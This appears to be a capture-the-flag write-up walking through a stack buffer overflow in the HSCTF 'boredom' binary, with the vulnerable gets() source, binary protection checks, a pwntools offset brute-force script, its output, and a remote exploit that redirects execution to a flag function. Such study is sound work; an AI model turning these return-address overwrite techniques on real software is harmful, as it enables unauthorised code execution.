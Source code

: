 ```yaml
---
layout: posts
author: andrea
tags: ctf
---
```

_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

First, I analyze the source code to find some exploitable code. Indeed, the main call the unsafe function <code class="cpp hljs inline"> gets </code>:

<pre><code class="cpp hljs">
	int main() {
		char toDo[200];
		setup();

		printf("Give me something to do: ");
		gets(toDo);
		puts("Ehhhhh, maybe later.");
		return 0;
	}
</code></pre>

<code class="cpp hljs inline">gets</code> saves the input in the char array <code class="cpp hljs inline">toDo</code> and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

<pre><code class="cpp hljs">
	void flag() {
		FILE &#42;f = fopen("flag.txt", "r");
		char buf[50];
		if (f == NULL) {
			puts("You're running this locally or I can't access the flag file for some reason.");
			puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
			exit(1);
		}
		fgets(buf, 50, f);
		printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
		puts("Now go away.");
		exit(42);
	}	
</code></pre>

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The <code class="bash hljs inline">readelf -h boredom</code> command answers to all our questions:

<pre><code class="plaintext hljs">
	ELF Header:
	Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
	Class:                             ELF64
	Data:                              2's complement, little endian
	Version:                           1 (current)
	OS/ABI:                            UNIX - System V
	ABI Version:                       0
	Type:                              EXEC (Executable file)
	Machine:                           Advanced Micro Devices X86-64
</code></pre>

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	print(e)
</code></pre>


the output is:

<pre><code class="plaintext hljs">
	Arch:     amd64-64-little
	RELRO:    Full RELRO
	Stack:    No canary found
	NX:       NX enabled
	PIE:      No PIE (0x400000)
</code></pre>

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer <code class="cpp hljs inline">toDo</code> and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of <code class="cpp hljs inline">flag()</code>.

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	flag&#95;addr = p64(e.symbols['flag'])
	
	for i in range(201,220):
		print('i: ' + str(i))
		p = process('./boredom')
		payload = bytes("a"*i,'utf-8') + flag&#95;addr
		p.sendlineafter(': ', payload)
		res = p.recvall(timeout=1)
		if "flag" in res.decode():
			print(res.decode())
			break;
</code></pre>

where <code class="cpp hljs inline">flag&#95;addr = \xd5\x11\x40\x00\x00\x00\x00\x00</code> is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

<pre><code class="plaintext hljs">
	...
	i: 215
	[+] Starting local process './boredom': pid 203
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
	i: 216
	[+] Starting local process './boredom': pid 206
	[+] Receiving all data: Done (162B)
	[*] Process './boredom' stopped with exit code 1 (pid 206)
	Ehhhhh, maybe later.
	You're running this locally or I can't access the flag file for some reason.
	If this occurs on the remote, ping @PMP#5728 on discord server.

	i: 217
	[+] Starting local process './boredom': pid 209
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
	...
</code></pre>

We exploited the buffer overflow locally now it's time to make it working remotely:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import *

	p = remote('pwn.hsctf.com', 5002)

	flag_addr = 0x00000000004011d5
	print( bytes('a'*(208),'utf-8')+p64(flag_addr))
	p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

	p.interactive()
</code></pre>

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

<pre><code class="plaintext hljs">
	flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
</code></pre>

## Resources

- [https://ctf.hsctf.com/](https://ctf.hsctf.com/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)
